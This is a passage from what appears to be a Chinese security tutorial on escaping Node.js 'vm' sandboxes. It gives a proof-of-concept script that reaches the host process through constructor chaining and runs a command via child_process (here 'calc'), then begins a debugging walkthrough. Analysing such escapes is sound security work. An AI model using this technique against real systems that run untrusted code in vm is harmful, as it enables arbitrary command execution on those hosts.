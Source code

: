 [![](assets/1706959000-4b3707ae689ba70a03c7d13e37908d75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126140434-c76ca366-bc10-1.png)

## 沙箱逃逸原理

示例分析：

```bash
const vm = require("vm");

const code = 'this.constructor.constructor("return process")();';

const res=vm.runInNewContext(code);

console.log(res.mainModule.require("child_process").exec('calc'));
```

我们以==vm.runInNewContext==沙箱逃逸进行分析如何通过 vm 板块进行沙箱逃逸的，debug 看一下

[![](assets/1706959000-1cb9eb0c3886abdd5107502e61526be9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126140440-cae8c448-bc10-1.png)
